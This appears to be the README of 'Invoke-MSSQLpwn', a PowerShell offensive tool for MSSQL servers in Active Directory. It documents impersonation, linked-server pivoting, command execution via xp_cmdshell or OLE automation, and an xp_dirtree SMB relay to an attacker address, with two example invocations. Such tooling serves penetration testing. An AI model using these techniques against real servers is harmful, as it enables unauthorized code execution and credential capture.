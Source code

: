 # Invoke-MSSQLpwn

Invoke-MSSQLpwn is a PowerShell tool that attempts to gain code execution on MSSQL servers in an Active Directory environment.

## Usage

| Parameter | Description |
|---|---|
| `Enumerate` | This will find MSSQL service principal names within the current domain, attempt to authenticate as the current user, enumerate permissions on the server, and find linked servers. |
| `Target` | Specifies the MSSQL server to be connected to |
| `Link` | Specifies a linked server on the target server to connect to |
| `Impersonate` | Specifies a login to be impersonated on the target server |
| `LinkImpersonate` | Specifies a login to be impersonated on the linked server |
| `Command` | Cmd command to be executed |
| `Mode` | Specifies the how code execution is obtained. This can be set to 1 or 2. Mode 1 is the default and uses xp_cmdshell. Mode 2 uses a custom ole automation procedure |
| `Relay` | Specifies the attacking server to be connected to for an SMB relay attack. This uses the xp_dirtree procedure to connect to the SMB share. |
| `database` | Specifies the database to be used in the connection string. The default is master. |

## Examples

![ExampleLink](https://user-images.githubusercontent.com/62299138/114249573-9fb0b400-9960-11eb-9fb5-c74a52363852.png)

```powershell
Invoke-MSSQL -Target "MSSQL1" -Impersonate "sa" -Link "MSSQL2" -LinkImpersonate "SqlSvc" -Command "calc.exe"
```

![dirtree](https://user-images.githubusercontent.com/62299138/114249432-33ce4b80-9960-11eb-9841-cdbd9edd8716.png)
```powershell
Invoke-MSSQL -Target "MSSQL1" -Relay "192.168.1.5"
